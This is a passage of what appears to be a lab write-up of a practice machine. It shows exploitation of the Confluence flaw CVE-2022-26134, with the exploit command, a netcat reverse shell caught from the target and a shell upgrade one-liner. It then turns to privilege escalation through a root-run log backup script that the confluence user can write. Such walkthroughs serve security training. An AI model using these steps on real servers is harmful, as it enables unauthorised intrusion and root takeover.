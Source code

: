 ```python
┌──(kali㉿kali)-[~/Desktop/pg_ground/flu/CVE-2022-26134]
└─$ python CVE-2022-26134.py http://192.168.157.41:8090 'bash /tmp/payload'
Confluence target version: 7.13.6

```

and we got a shell

```python
──(kali㉿kali)-[~/Desktop/pg_ground/flu]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.157.41] 59812
$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)

$ which python3
which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
confluence@flu:/opt/atlassian/confluence/bin$ ls -la

```

# Privesc

a quick look at the upper directory we are in reveals an interesting script name  **log-backup.sh**

```python

confluence@flu:/opt$ ls -la                                                           
ls -la                                                                                
total 756692                                                                          
drwxr-xr-x  3 root       root            4096 Dec 12  2023 .                                                                                                                                                                                                                                                                                             
drwxr-xr-x 19 root       root            4096 Dec 12  2023 ..                         
drwxr-xr-x  3 root       root            4096 Dec 12  2023 atlassian                  
-rwxr-xr-x  1 root       root       774829955 Dec 12  2023 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x  1 confluence confluence       408 Dec 12  2023 log-backup.sh   
```

the file was created december 12th 

```python
#!/bin/bash                                                                                                                                                                 
                                                                                                                                                                            
CONFLUENCE_HOME="/opt/atlassian/confluence/"                                                                                                                                
LOG_DIR="$CONFLUENCE_HOME/logs"                                                                                                                                             
BACKUP_DIR="/root/backup"                                                             
TIMESTAMP=$(date "+%Y%m%d%H%M%S")                                                     
                                                                                      
# Create a backup of log files                                                        
cp -r $LOG_DIR $BACKUP_DIR/log_backup_$TIMESTAMP                                      
                                                                                                                                                                            
tar -czf $BACKUP_DIR/log_backup_$TIMESTAMP.tar.gz $BACKUP_DIR/log_backup_$TIMESTAMP
                                                                                      
# Cleanup old backups                                                                 
find $BACKUP_DIR -name "log_backup_*"  -mmin +5 -exec rm -rf {} \;                    
```